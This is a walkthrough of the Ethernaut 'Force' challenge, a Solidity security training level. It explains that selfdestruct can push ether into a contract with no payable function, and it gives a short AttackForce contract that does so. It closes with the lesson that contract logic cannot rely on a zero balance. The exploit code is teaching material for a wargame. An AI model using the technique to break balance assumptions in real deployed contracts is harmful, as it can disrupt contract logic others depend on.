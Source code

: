```yaml
---
description: >-
  forcefully sending ether to a contract that doesn't have payable function,
  payable fallback() function, or receive() function.
---
```


# 7 - Force

Ethernaut Level7: [Force](https://ethernaut.openzeppelin.com/level/0x80934BE6B8B872B364b470Ca30EaAd8AEAC4f63F)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

### Goal of this level

* make the balance of the contract greater than zero

### What you should know before

* `selfdestruct`\
  ``-> see [here](https://www.alchemy.com/overviews/selfdestruct-solidity) and [here](https://www.youtube.com/watch?v=cODYglsn3bs)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

If you use `selfdestruct` you can forcefully send ether to any contract even if that contract doesn't have any method to receive either.

</details>

There are 3 ways that a contract can receive ether.

1. payable `function`
2. payable `fallback()`
3. `receive()`

But **`Force`** contract has none of them.

But we can forcefully send ether by using `selfdestruct`.

```solidity
contract AttackForce {
    address force;

    constructor(address _instanceAddr) payable {
        force = _instanceAddr;
    }

    function attack() external {
        selfdestruct(payable(force));
    }
}
```

Deploy `AttackForce` contract with some eth, and call `attack()` function.

Done! 😎

## Key Takeaways

* You can forcefully send ether using `selfdestruct`.
* So do not count on the invariant `address(this).balance == 0` for any contract logic.\
